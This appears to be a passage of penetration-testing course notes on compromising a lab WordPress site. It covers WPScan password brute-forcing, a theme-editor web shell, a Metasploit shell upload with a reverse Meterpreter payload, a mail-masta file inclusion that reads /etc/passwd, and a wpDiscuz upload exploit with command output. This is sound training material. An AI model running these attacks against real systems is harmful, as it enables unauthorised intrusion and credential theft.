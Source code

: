 ## Login Bruteforce

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster:
```shell-session
$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

## Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

We add this single line to the file just below the comments to avoid too much modification of the contents:
![[theme_editor.webp]]

WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target:
```shell-session
$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

The [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell:
```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

Sometimes we will have to use both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail. During an assessment, we would want to make every attempt to clean up this artifact from the client system and, regardless of whether we were able to remove it or not, we should list this artifact in our report appendices. At the very least, our report should have an appendix section that lists the following information:

- Exploited systems (hostname/IP and method of exploitation)
- Compromised users (account name, method of compromise, account type (local or domain))
- Artifacts created on systems
- Changes (such as adding a local admin user or modifying group membership)

## Leveraging Known Vulnerabilities

The vast majority of WordPress vulnerabilities can be found in plugins. According to the WordPress Vulnerability Statistics page hosted [here](https://wpscan.com/statistics), at the time of writing, there were 23,595 vulnerabilities in the WPScan database. These vulnerabilities can be broken down as follows:

- 4% WordPress core
- 89% plugins
- 7% themes

The number of vulnerabilities related to WordPress has grown steadily since 2014, likely due to the sheer amount of free (and paid) themes and plugins available, with more and more being added every week. For this reason, we must be extremely thorough when enumerating a WordPress site as we may find plugins with recently discovered vulnerabilities or even old, unused/forgotten plugins that no longer serve a purpose on the site but can still be accessed.

Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

### Vulnerable Plugins - mail-masta

The plugin [mail-masta](https://wordpress.org/plugins/mail-masta/) is no longer supported but has had over 2,300 [downloads](https://wordpress.org/plugins/mail-masta/advanced/) over the years. It's not outside the realm of possibility that we could run into this plugin during an assessment, likely installed once upon a time and forgotten. Since 2016 it has suffered an [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

Let's take a look at the vulnerable code for the mail-masta plugin:
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitization. Using this, we can include arbitrary files on the webserver. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`:
```shell-session
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### Vulnerable Plugins - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution.

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post:
```shell-session
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script:
```shell-session
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.